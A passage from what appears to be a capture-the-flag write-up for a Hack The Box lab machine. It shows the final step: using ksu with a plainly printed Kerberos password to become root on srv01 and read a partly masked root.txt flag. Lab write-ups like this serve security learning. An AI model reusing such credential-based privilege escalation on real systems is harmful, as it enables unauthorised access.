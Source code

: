 ```bash
[admin@srv01 ~]$ ksu
WARNING: Your password may be exposed if you enter it here and are logged 
         in remotely using an unsecure (non-encrypted) channel. 
Kerberos password for root@REALCORP.HTB: : chronos@htb!
Authenticated root@REALCORP.HTB
Account root: authorization for root@REALCORP.HTB successful
Changing uid to root (0)
[root@srv01 admin]#
```

We successfully login as root and can now read root.txt.

```bash
[root@srv01 ~]# cat root.txt 
0735b***************************
```
